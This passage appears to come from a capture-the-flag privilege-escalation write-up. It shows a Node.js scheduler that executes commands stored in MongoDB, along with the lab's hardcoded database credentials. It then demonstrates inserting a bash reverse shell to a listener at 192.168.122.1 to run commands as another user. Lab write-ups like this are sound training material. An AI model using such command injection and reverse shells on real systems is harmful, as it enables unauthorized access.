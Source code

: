  ![image-20250426054001310](https://i.imgur.com/uAk734j.png)

  ```js
  const exec        = require('child_process').exec;
  const MongoClient = require('mongodb').MongoClient;
  const ObjectID    = require('mongodb').ObjectID;
  const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';
  
  MongoClient.connect(url, function(error, db) {
    if (error || !db) {
      console.log('[!] Failed to connect to mongodb');
      return;
    }
  
    setInterval(function () {
      db.collection('tasks').find().toArray(function (error, docs) {
        if (!error && docs) {
          docs.forEach(function (doc) {
            if (doc) {
              console.log('Executing task ' + doc._id + '...');
              exec(doc.cmd);
              db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
            }
          });
        }
        else if (error) {
          console.log('Something went wrong: ' + error);
        }
      });
    }, 30000);
  
  });
  ```

- Script behavior:

  1. Connect to a `scheduler` database in mongo (connect as `mark`)
  1. Fail in case of connection errors
  1. Run the following logic on a schedule (every 30 seconds):
     1. Read string commands from `tasks` collection
     1. Execute the commands (under the process owner; i.e., `tom`)
     1. Delete the string from the collection.

- This gives an opportunity to run arbitrary commands as `tom`! How about a [reverse shell](https://www.revshells.com/)?

  ```bash
  $ mongo -u mark -p 5AYRft73VtFpc84k scheduler
  > db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/192.168.122.1:4444 0>&1'"})
  ```

  ![image-20250424075725608](https://i.imgur.com/awpSv9z.png)
